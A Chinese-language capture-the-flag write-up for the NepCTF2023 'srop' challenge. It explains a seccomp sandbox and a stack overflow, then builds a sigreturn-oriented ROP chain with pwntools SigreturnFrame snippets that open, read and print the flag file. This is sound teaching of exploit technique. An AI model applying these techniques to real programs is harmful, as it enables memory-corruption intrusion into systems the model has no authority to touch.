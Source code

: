 # srop(NepCTF2023)

## ORW

题目附件中提供了源码，分析并查询可知，该题目通过seccomp设置了沙箱，限制了只能使用open、write、read、rt_sigreturn这几个系统调用。

[PWN-ORW总结](https://x1ng.top/2021/10/28/pwn-orw%E6%80%BB%E7%BB%93/)

## SROP

[SROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)

## 分析过程

### 1. syscall

[syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)

main 函数一共4行

```c
char bd[0x30];
seccomp();
// write(1, buf, 0x30)
syscall(1,1,buf,0x30);
// read(0, bd, 0x300)
return syscall(0,0,bd,0x300);
```

先通过seccomp限制系统调用，然后两句syscall。分别先通过write输出buf的内容“welcome to NepCTF2023!”，随后用read向bd数组读入0x300长度的字符。

很明显这里的read有栈溢出。

找到syscall的地址0x4005B0
![syscall_addr](image.png)

这里就可以使用到pwntools自带的工具SigreturnFrame.
[pwntools srop](https://docs.pwntools.com/en/stable/rop/srop.html)

使用到的syscall

| syscall | num |
| ------- | --- |
| read    | 0   |
| write   | 1   |
| open    | 2   |

需要知道的句柄

| handle | num |
| ------ | --- |
| stdin  | 0   |
| stdout | 1   |
| stderr | 2   |

首先构造read，向bss段写入0x500大小的内容

```python
pop_rdi = 0x0000000000400813
syscall = 0x4005B0
bss_addr = elf.bss(0x500)
read_function = SigreturnFrame()
read_function.rdi = 0  # syscall read
read_function.rsi = 0  # read handle
read_function.rdx = bss_addr-0x8  # read buf
read_function.rcx = 0x500  # read count
read_function.rip = syscall
read_function.rsp = bss_addr
```

然后构造open，用open打开flag文件

```python
open = SigreturnFrame()
open.rdi = 2 # syscall open
open.rsi = bss_addr-0x8  # open path
open.rdx = 0  # open flag
open.rcx = 0
open.rip = syscall
open.rsp = bss_addr + 0x110
```

打开文件后，再使用read将flag文件读入内存

```python
read_function = SigreturnFrame()
read_function.rdi = 0 # syscall read
read_function.rsi = 3 # read handle
read_function.rdx = bss_addr - 0x200 # read buf
read_function.rcx = 0x100 # read count
read_function.rip = syscall
read_function.rsp = bss_addr + 0x220
```

最后使用write将内存中的flag打印到标准输出

```python
write_funtion = SigreturnFrame()
write_funtion.rdi = 1 # syscall write
write_funtion.rsi = 1 # write handle(stdout)
write_funtion.rdx = bss_addr - 0x200 # write path
write_funtion.rcx = 0x100 # write count
write_funtion.rip = syscall
write_funtion.rsp = bss_addr+0x30
```

这里关于flag文件的句柄，可以通过以下C代码尝试，发现在0，1，2三个标准输入输出后，打开的flag文件句柄为3

```c
int main()
{
    char buffer[1024] = {0};
    size_t bytesRead;

    int fd = syscall(2, "flag", 0);
    bytesRead = syscall(0, 3, buffer, 1023);

    syscall(1, 1, buffer, bytesRead);
}
```

运行结果：
![result](image-1.png)
